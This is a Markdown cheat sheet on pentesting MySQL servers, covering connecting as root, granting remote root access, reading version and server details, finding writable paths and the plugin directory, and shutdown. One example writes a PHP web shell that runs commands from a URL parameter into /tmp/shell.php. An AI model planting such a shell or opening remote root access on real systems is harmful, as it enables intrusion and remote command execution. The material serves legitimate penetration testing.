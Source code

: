 # Pentesting MySQL

## Connect to the server locally
```
mysql -h localhost -u root
```

## Connect to the server remotely
```
mysql -h 192.168.232.131 -u root
```

## Enable remote root access
**For MySQL < 8.0**
```
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' IDENTIFIED BY 'password';
```
**For MySQL > 8.0**
```
CREATE USER 'root'@'%' IDENTIFIED BY 'password';
GRANT ALL PRIVILEGES ON *.* TO 'root'@'%' WITH GRANT OPTION;
```

## Get the SQL version
```
mysql> SELECT version();
+-----------------+
| version()       |
+-----------------+
| 8.0.19-0ubuntu5 |
+-----------------+
1 row in set (0.00 sec)
```
OR
```
mysql> SHOW VARIABLES LIKE "%version%";
+--------------------------+-------------------------------+
| Variable_name            | Value                         |
+--------------------------+-------------------------------+
| immediate_server_version | 999999                        |
| innodb_version           | 8.0.19                        |
| original_server_version  | 999999                        |
| protocol_version         | 10                            |
| slave_type_conversions   |                               |
| tls_version              | TLSv1,TLSv1.1,TLSv1.2,TLSv1.3 |
| version                  | 8.0.19-0ubuntu5               |
| version_comment          | (Ubuntu)                      |
| version_compile_machine  | x86_64                        |
| version_compile_os       | Linux                         |
| version_compile_zlib     | 1.2.11                        |
+--------------------------+-------------------------------+
11 rows in set (0.00 sec)
```
OR
```
mysql> STATUS;
--------------
mysql  Ver 8.0.19-0ubuntu5 for Linux on x86_64 ((Ubuntu))
```

## Get server information
```
mysql> STATUS;
--------------
mysql  Ver 8.0.19-0ubuntu5 for Linux on x86_64 ((Ubuntu))

Connection id:          8
Current database:
Current user:           root@localhost
SSL:                    Not in use
Current pager:          stdout
Using outfile:          ''
Using delimiter:        ;
Server version:         8.0.19-0ubuntu5 (Ubuntu)
Protocol version:       10
Connection:             Localhost via UNIX socket
Server characterset:    utf8mb4
Db     characterset:    utf8mb4
Client characterset:    utf8mb4
Conn.  characterset:    utf8mb4
UNIX socket:            /var/run/mysqld/mysqld.sock
Binary data as:         Hexadecimal
Uptime:                 21 min 45 sec

Threads: 2  Questions: 19  Slow queries: 0  Opens: 126  Flush tables: 3  Open tables: 46  Queries per second avg: 0.014
```

## Check file locations that you can write to
[Source](https://stackoverflow.com/questions/32737478/how-should-i-resolve-secure-file-priv-in-mysql)

When attempting to write to a file you may get the following error:
```
select "<? echo passthru($_GET['cmd']); ?>" INTO OUTFILE '/tmp/shell.php';
ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

You can check the file locations that you can write to by running the following command:
```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-----------------------+
| Variable_name    | Value                 |
+------------------+-----------------------+
| secure_file_priv | /var/lib/mysql-files/ |
+------------------+-----------------------+
1 row in set (0.00 sec)
```

## Find the plugins folder path
```
mysql> show variables like '%plugin%';
+-------------------------------+------------------------+
| Variable_name                 | Value                  |
+-------------------------------+------------------------+
| default_authentication_plugin | caching_sha2_password  |
| plugin_dir                    | /usr/lib/mysql/plugin/ |
+-------------------------------+------------------------+
2 rows in set (0.00 sec)
```

## Shut down the server
```
mysql> shutdown;
ERROR 2006 (HY000): MySQL server has gone away
No connection. Trying to reconnect...
```
